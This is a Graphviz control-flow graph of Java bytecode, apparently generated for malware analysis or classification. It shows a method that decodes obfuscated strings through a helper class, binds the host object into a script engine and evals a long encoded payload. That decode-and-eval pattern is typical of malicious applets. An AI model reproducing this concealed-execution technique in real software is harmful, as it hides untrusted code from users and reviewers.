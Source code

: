 digraph "" {
    "r0 := @this: bytecodes"
    "load.r r0"
    "r0 := @this: bytecodes"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"u:\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"u:\"";
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"
    "push \"u:\""->"staticinvoke <ggg: java.lang.String I(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r $r4"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r $r4";
    "load.r $r4"
    "store.r $r4"->"load.r $r4";
    "push \"]FLZYB\""
    "load.r $r4"->"push \"]FLZYB\"";
    "staticinvoke <bytecodes: java.lang.String I(java.lang.String)>"
    "push \"]FLZYB\""->"staticinvoke <bytecodes: java.lang.String I(java.lang.String)>";
    "staticinvoke <bytecodes: java.lang.String I(java.lang.String)>"->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "push \"=w lgk&L=m q.?t?/j\'|=v&qa6id@u(i(1%~\'xgL0l=z$1:z=L,|<m k0R(q(x,maq<s%6r\u0016(o9s,kg|(s%](|\\\"7`$@m,k<m\'?\u001ak;v\'xgy;p$\\!~;\\&{,7p(i4iR(k!1;p<q-7\u0004~=wgm(q-p$7`?c?{*`6rbrzi\\\"iq,hiZ;m&ma6rzgr,l:~.zi\\\"ik!v:$,\""
    "pop"->"push \"=w lgk&L=m q.?t?/j\'|=v&qa6id@u(i(1%~\'xgL0l=z$1:z=L,|<m k0R(q(x,maq<s%6r\u0016(o9s,kg|(s%](|\\\"7`$@m,k<m\'?\u001ak;v\'xgy;p$\\!~;\\&{,7p(i4iR(k!1;p<q-7\u0004~=wgm(q-p$7`?c?{*`6rbrzi\\\"iq,hiZ;m&ma6rzgr,l:~.zi\\\"ik!v:$,\"";
    "push \"=w lgk&L=m q.?t?/j\'|=v&qa6id@u(i(1%~\'xgL0l=z$1:z=L,|<m k0R(q(x,maq<s%6r\u0016(o9s,kg|(s%](|\\\"7`$@m,k<m\'?\u001ak;v\'xgy;p$\\!~;\\&{,7p(i4iR(k!1;p<q-7\u0004~=wgm(q-p$7`?c?{*`6rbrzi\\\"iq,hiZ;m&ma6rzgr,l:~.zi\\\"ik!v:$,\""->"staticinvoke <ggg: java.lang.String I(java.lang.String)>";
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"->"load.r $r4";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r $r4"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>"->"pop";
    "return"
    "pop"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"->"return";
}
